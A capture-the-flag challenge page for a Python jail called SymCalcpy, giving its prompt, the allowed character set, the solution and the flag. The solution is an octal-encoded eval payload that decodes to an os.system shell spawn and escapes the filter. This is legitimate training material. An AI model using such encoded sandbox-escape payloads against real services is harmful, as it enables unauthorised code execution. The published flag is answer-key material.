 # SymCalcpy
## JAIL - Medium
| author | first blood | solves | points |
| --- | -- | --- | --- |
| k3v1n | despawningbone from **Maple Bacon** | 27 | 220 |
### prompt
Welcome to SymCalc, the most secure calculator ever. Only punctuation and digits allowed!

**Connect via:**
`nc symcalc.sdc.tf 1337`

### original specification
Allowed set of characters written in Python:
`set(string.punctuation + string.digits + '\n')`

It also asks for a favorite builtin, which will be pushed to a Python interpreter, the interpreter then asks for you to enter an expression.
The trick is to enter eval for that and then enter Python code encoded in octal digits:
`_('\137\137\151\155\160\157\162\164\137\137\050\042\157\163\042\051\056\163\171\163\164\145\155\050\042\163\150\042\051')`

There is actually another built-in (without using the obvious eval or exec) that can be used: `getattr`, with a more complex exploit based on the same octal encoding idea, but this will be left as an exercise to the writeup authors.

**flag:** `sdctf{0ct4l_3scap3s_go_brrrrr...___und3rsc0r3s_ar3_Id3Nt1Fi3rs_t00}`

### write-ups
1. https://mikecat.github.io/ctf-writeups/2022/20220507_San_Diego_CTF_2022/JAIL/SymCalc_py/
2. https://github.com/qhdwight/ctf-writeups/tree/master/sd-ctf-2021/rbash-symcalcpy